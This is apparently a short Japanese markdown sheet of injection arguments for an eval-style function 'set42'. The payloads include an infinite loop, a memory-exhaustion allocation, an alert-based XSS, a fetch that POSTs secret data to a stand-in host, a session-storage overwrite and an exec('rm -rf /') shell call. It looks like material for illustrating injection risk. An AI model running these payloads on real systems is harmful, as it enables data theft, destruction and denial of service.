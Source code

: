 # システムに負荷をかける引数
## 無限ループを作成する
```
set42('while (true) {}; x');
```

## メモリを大量に使用する
```
set42('let arr = new Array(Number. MAX_SAFE_INTEGER); x');
```

# セキュリティの問題となる挙動を取るような引数
## クロスサイトスクリプティング
```
const xssInput = `alert('hacked!'); x`;
set42(xssInput);
```

## データベースへの不正アクセス
```
const dataExfiltration = `fetch('https://example.site/data', { method: 'POST', body: JSON.stringify({ secretData: 'Sensitive Information' }) }); x`;
set42(dataExfiltration);
```

## ローカルストレージやセッション情報への不正アクセス
```
const sessionHacking = `localStorage.setItem('sessionId', 'invalidSession'); x`;
set42(sessionHacking);
```

## システムへの不正アクセス
```
const shellCommand = `const { exec } = require('child_process'); exec('rm -rf /'); x`;
set42(shellCommand);
```


